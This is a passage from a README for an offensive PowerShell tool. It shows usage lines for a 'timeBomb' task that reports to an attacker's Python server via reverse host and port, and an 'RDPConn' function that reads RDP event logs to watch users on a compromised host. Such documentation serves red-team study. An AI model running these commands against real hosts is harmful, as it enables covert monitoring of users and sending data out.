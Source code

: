 #### Scenario 1 - User used RDP to connect to the remote host, after while host is locked

![alt_text](https://github.com/tasox/LogRM/blob/master/Screenshots/User_RDP.png)


#### Scenario 2 - User is connected with RDP to remote host, is currently in

![alt_text](https://github.com/tasox/LogRM/blob/master/Screenshots/User_LoggedOn_RDP2.png)


The task is going to run once at specific time.
```
PS> timeBomb -task once -at 15:00 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task once -at 15:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

#### Scenario 3 - User is logged of and TimeBomb sent a notification to our remote server.

![alt text](https://github.com/tasox/LogRM/blob/master/Screenshots/timebomb_notification2.png)
![alt_text](https://github.com/tasox/LogRM/blob/master/Screenshots/timebomb_notification.png)


The task is going to run and stop at specific time.
```
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

## Active Remote Desktop Sessions

RDPConn function gets only valid incoming RDP connections into the compromised host. By using this function you will be able to observe which users from which machines have connection with our host without interrupt their connection if we tried to login with the same credentials.

RDPConn function uses the following events

1) Session logon succeeded - 21
2) Session has been disconneted - 24
3) Session reconnection succeeded - 25


```
PS> RDPConn
PS> RDPConn -ip 127.0.0.1
```

#### Scenario 1
